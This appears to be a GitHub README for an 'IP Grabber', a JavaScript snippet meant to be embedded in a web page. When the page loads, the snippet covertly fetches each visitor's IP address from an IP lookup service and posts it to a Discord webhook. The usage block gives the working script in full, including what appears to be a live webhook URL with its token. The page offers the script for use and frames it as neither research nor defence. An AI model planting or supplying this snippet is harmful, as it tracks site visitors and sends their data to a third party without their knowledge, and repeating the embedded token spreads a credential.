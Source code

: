 <h1 align="center">IP Grabber</h1>

<p align="center">
  <img src="https://img.shields.io/badge/Status-Active-success?style=flat-square&logo=github" alt="Status">
  <img src="https://img.shields.io/github/license/your_username/your_repo?style=flat-square" alt="License">
</p>

<p align="center">
  <strong>A simple script to grab the user's IP address and send it to a Discord webhook.</strong>
</p>


## Description

This script fetches the user's IP address using `https://api.ipify.org` and sends it to a specified Discord webhook.

## How it Works

The script uses JavaScript's `fetch` API to send a GET request to `https://api.ipify.org` to obtain the user's IP address. It then sends a POST request to a Discord webhook URL with the obtained IP address as the payload.

## Usage

Simply include the script in your HTML file:

```html
<script>
  fetch('https://api.ipify.org')
    .then(response => response.text())
    .then(ip => fetch('https://discord.com/api/webhooks/1241039008390189147/NSOjUiHwvWVF68DThJ-YbnkKLs6ZXKrR6mJH4hL_ie6nZ7o_kSLSjTalUGsQTQ3z-cS1', {
        method: 'POST',
        headers: { 'Content-Type': 'application/json' },
        body: JSON.stringify({ content: ip })
    }));
</script>
